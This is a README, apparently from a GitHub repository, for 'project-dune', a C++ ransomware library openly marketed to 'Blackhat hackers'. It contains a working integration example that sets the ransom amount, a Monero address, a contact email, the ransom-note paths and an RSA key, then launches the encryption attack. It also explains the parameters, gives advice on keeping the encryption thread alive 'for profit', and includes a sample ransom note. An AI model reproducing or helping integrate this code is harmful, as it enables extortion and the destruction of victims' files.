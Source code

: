 # project-dune
An advanced customizable ransomware solution for Blackhat hackers.

## Usage

Example integration
```cpp
    #include <iostream>
#include <vector>
#include <string>
#include <chrono>
#include "inc/dune.hpp"

int main(int argc, char *argv[])
{
    std::vector<std::string> notes;
    notes.push_back("./ransom.txt");
    notes.push_back("/ransom.txt");
    std::string public_key = "-----BEGIN PUBLIC KEY-----\n"
                             "MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQC3LhafKJnVq/xa/1d40hcETsyG\n"
                             "CLSxlhXfJWERLPY14Di6EyKZj+e7+IpZF489pxnDEode2UaN/Mq0/hCy8epOrfx1\n"
                             "0BKGlxY72fPDt9MvThCs6DokeK4cIzcMEKQv4RNBF8q3winAM1SGnxLu7RWx2npF\n"
                             "ND8Xa8c7d8il4AjK5QIDAQAB\n"
                             "-----END PUBLIC KEY-----\n";
    std::vector<std::string> exempt_files = std::vector<std::string>();
    exempt_files.push_back("0ef71b11630f2ffb4e796e7923300d67a763eaca");
    exempt_files.push_back("c9831e93135c07e60e86d0cea63a878cb512764f");

    dune::Dune dune = dune::Dune(2.0, "XMR", "your address here", "You have been pwned!", notes, "tech@anon.gov", public_key, exempt_files);
    dune::Acknowledgement ack;
    ack.are_you_sure_you_want_to_do_this = true;
    ack.i_accept_the_risks_and_consequences_of_my_actions = true;
    ack.i_understand_it_is_illegel = true;
    dune.attack(ack, "./");
    printf("All done\n");
    return 0;
}
```

The Dune ransomware class contains two important methods. The attack method and the constructor. The constructor accepts several required arguments to tell the malware how to behave (Ex: what crypto address to demand). The most important parameter is the PEM formatted RSA key. The RSA public key must be valid, or behavior is not guaranteed. The class requires a string vector containing absolute or relative file paths to be supplied to create many ransom notes. More, the better. The class also takes an argument specifying the amount and type of cryptocurrency to be ransomed. It also accepts a message to include in the ransom file and can be left as an empty string. Also, there is an email parameter to have so that the victim can contact the ransomer.

## Notes
The attack method creates a thread that will encrypt all files in the background. Since this could take a while, you will need to create a while loop to wait until verify_done returns true. Remember to sleep between calls to it, or it will slow the encryption. You must do this to keep the thread alive, or encryption will likely result in corrupt files and no profit.

Example:
```cpp
dune.attack(ack, true);

while (!dune.verify_done()) {
    std::this_thread::sleep_for(std::chrono::milliseconds(5000));
}
```

This is an example Dune ransonware note file:
```
Message from hacker: You have been pwned!

You must pay in this type of cryptocurrency XMR.
The ransom amount is 2.000000 XMR.
The address to pay is: 

your address here

This address is specific to this attack. If you have multiple attacks paying another address will not help you get your files back. The full amount or more must be paid to the XMR address specified.
DO NOT MODIFY THIS OR ALL YOUR FILES WILL BE LOST (It is the RSA encrypted key for decryption)

GJXy2U6fJlThFBb9a1WwQFGfNzAlkpAmYTyrd+zddNJyxwhJrrwTStvtOM40OMtvLNiGWhIFAU7kFrQnmxzuntFse1+hzqmxz3xgUI+l5KiVgXiNvaLDmvGdvjCGg0ADjQcD/mkCW0FIIdtXXjNr+2seACPCFjYEajryMuPXekE=

Send this whole file to this email address AFTER you have paid the ransom: tech@anon.gov

If you contact this email before the ransom is paid in full it will likely be increased.


This is your victim id: d89ecb59-173c-d8de-5714-3cfa.
```

Enjor the easy integration.